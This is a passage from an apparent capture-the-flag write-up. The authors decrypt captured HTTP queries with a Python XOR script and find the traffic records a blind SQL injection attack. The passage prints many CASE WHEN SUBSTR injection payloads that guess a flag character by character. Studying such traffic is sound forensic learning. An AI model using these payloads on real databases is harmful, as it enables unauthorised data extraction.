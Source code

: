 ## The integration part
At that moment, we were able to decrypt any query we've had. But, all our work were conducted _by hand_. And there were tons of queries to decrypt.
Being lazy, we took advantage of wireshark `Export HTTP objects`, saved it all to files (note, that the query is contained in the file name, and the response is in the contents), and iterated through downloaded files.

```
from os import listdir
D = listdir('C:/Users/your_favourite_user/Desktop/exported')

for d in D:
    z = d[23:]
    r = ""
    for I in range(len(z) / 64 + 1):
            a = z[I*64:(I+1)*64]
            b = "e4146d4252bafb3b38212df186497a7479d5e95af4796e7573a65e6849952032"
            c = "4141414141414141414141414141414141414141414141414141414141414141"
            for i in range(len(a) / 2):
                    aa = ord(a[i*2:i*2 + 2].decode('hex'))
                    bb = ord(b[i*2:i*2 + 2].decode('hex'))
                    cc = ord(c[i*2:i*2 + 2].decode('hex'))
    	
                    r = r + chr(aa ^ bb ^ cc)
    print r
```

What we've got was a record of _blind SQL injection_ attack!
```
(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = '{' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'z' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'y' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'x' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 's' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'r' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'q' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'p' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'w' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'v' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'u' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 't' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'k' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'j' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'i' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'h' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'o' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'n' THEN stock ELSE price END)
```